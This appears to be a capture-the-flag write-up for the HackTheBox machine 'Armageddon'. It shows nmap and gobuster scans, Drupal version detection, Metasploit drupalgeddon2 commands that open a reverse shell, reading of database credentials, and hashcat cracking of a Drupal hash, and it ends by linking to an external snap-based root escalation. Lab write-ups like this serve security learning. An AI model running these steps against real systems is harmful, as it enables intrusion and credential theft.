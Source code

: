 Armageddon
-------
  ![e](https://i.ibb.co/kcG1Btf/armageddon.png)
  \
  \
**NMAP Scan**
```
$nmap -sV -vv 10.10.10.233

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.6 ((CentOS) PHP/5.4.16) <- let's go
```
**Gobuster scan** (common.txt)
```
$gobuster dir -w common.txt -u 10.10.10.233

/.gitignore           (Status: 200) [Size: 174]
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/cgi-bin/             (Status: 403) [Size: 210]
/includes             (Status: 301) [Size: 237] [--> http://10.10.10.233/includes/]
/index.php            (Status: 200) [Size: 7440]                                   
/misc                 (Status: 301) [Size: 233] [--> http://10.10.10.233/misc/]    
/modules              (Status: 301) [Size: 236] [--> http://10.10.10.233/modules/] 
/profiles             (Status: 301) [Size: 237] [--> http://10.10.10.233/profiles/]
/robots.txt           (Status: 200) [Size: 2189]                                   
/scripts              (Status: 301) [Size: 236] [--> http://10.10.10.233/scripts/] 
/sites                (Status: 301) [Size: 234] [--> http://10.10.10.233/sites/]   
/themes               (Status: 301) [Size: 235] [--> http://10.10.10.233/themes/]  
/web.config           (Status: 200) [Size: 2200]                                   
/xmlrpc.php           (Status: 200) [Size: 42] 
```
- With wappalyzer (or you can check directory listing), we can see it is using drupal. Drupal uses **/CHANGELOG.txt** for writing changes.

```
GET /CHANGELOG.txt

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.
```
- As we can see, it is using old version of Drupal (CVE-2018-7600), so let's go exploit it!


**Exploit**

We can exploit it via metasploit module `unix/webapp/drupal_drupalgeddon2`, i tried to do it manually, but i was unable to (sorry)

```
search drupalgeddon
use 0
set RHOSTS 10.10.10.233
set LHOST <your ip>
exploit
```
We've got our shell. Note, that meterpreter has not normal commands, so just type `shell`. Metasploit shell sucks, i know.

- after some time, i was able to find credentials of mysql in `/var/www/html/sites/default/` - just read, one of the files contains password and username ;)
\
\

In the mysql database, it's obvious what to do (if you carefully read the file ;)) - BUT! this was pretty amazing since my commands were not working, it was working after i typed wrong syntax lmao.
```https://i.ibb.co/kcG1Btf/armageddon.png
use [name]
show * from users;
eh
;  <---- after this, i've got syntax error and hashed password with the username showed up
```
- I'm gonna gonna use hashcat for this task. $S$ is Drupal7 (7900), so the command will be\
`hashcat -a 0 -m 7900 [file with hash] [wordlist] (rockyou is enough)`
 ```
 $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:password
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: Drupal7
Hash.Target......: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt
```
  we can log into ssh and get our user flag. :)
\
\
\
**Privesc**
- now for the escalation part. let's try `sudo -l`. (it is the first thing i do and you should too)
```
User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```
- This was really interesting privesc -> https://notes.vulndev.io/notes/redteam/privilege-escalation/misc-1 -- you will find the instructions there. 

thanks.
